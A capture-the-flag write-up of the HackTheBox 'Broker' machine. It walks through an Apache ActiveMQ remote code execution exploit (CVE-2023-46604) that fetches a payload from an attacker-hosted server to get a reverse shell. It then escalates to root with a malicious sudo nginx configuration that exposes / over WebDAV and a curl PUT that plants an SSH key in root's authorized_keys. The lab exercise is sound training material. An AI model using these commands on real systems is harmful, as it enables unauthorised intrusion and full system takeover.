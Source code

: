 ```yaml
---
layout: /src/layouts/MarkdownPostLayout_HTB.astro
title: Broker HackTheBox Write-Up
author: Adrian Reategui
description: ""
image:
  url: "/images/posts/broker_bg.png"
  alt: ""
pubDate: 2025-06-14
tags:
  ["linux", "webdav", "ActiveMQ", "nginx"]
languages: []
---
```


## NMAP
![alt](/images/posts/broker12.webp)
## ENUMERATION
- As we can see the are multiple mentions of Apache ActiveMQ, doing a bit of a research online we found that the version is vulnerable to RCE so we donwload the [exploit](https://github.com/rootsecdev/CVE-2023-46604) from github. Once downloaded we run it sharing a python HTTP server and we also set our listener up in order to get a revershell
	```
	go run main.go -i 10.10.11.243 -p 61616 -h http://10.10.14.22:80/poc-linux.xml
	python3 -m http.server 80
	```
	![alt](/images/posts/broker3.webp)
	![alt](/images/posts/broker2.webp)
- We recevied our revershell as the user activemq
	```
	nc -nlvp 9001
	```
	![alt](/images/posts/broker.webp)
## LOCAL FLAG
![alt](/images/posts/broker11.webp)
## PRIVILEGE ESCALATION
- Our user is capable of running as any user the nginx binary
	```
	sudo -l
	```
	![alt](/images/posts/broker4.webp)
- Doing a bit of a research we founf that we're cable of craft a malicious nginx.conf file that would allows us to access root files through webdav , so we start creating our malicious file
	```nginx
		user root;
		events {
			worker_connections 1024;
		}
		http {
			server {
				listen 9001;
				root /;
				autoindex on;
				dav_methods PUT;
			}
		}
	```
	![alt](/images/posts/broker5.webp)
- With our malicious file created we then execute the binary passing the conf file to it
	```bash
	sudo -u root /usr/bin/nginx -c /tmp/nginx.conf
	```
	![alt](/images/posts/broker6.webp)
- In order to test that our malicious file has been crafter and passed properly we make a request to the victim machine through the port we specified on the file
	```bash
	curl -s -X GET http://10.10.11.243:9001
	```
	![alt](/images/posts/broker7.webp)
- We are able to list the root directory, now we are going to make use of the PUT parameter in curl in order to upload our public key to the authorized_keys file inside the root .ssh directory
	```bash
	curl -X PUT http://10.10.11.243:9001/root/.ssh/authorized_keys -d 'id_rsa.pub'
	```
	![alt](/images/posts/broker8.webp)
- Once we upload our public key we then try to connect through SSH as the user root using our own private id_rsa key 
	```bash
	ssh root@10.10.11.243 -i id_rsa
	```
	![alt](/images/posts/broker9.webp)
## ROOT FLAG
![alt](/images/posts/broker10.webp)
	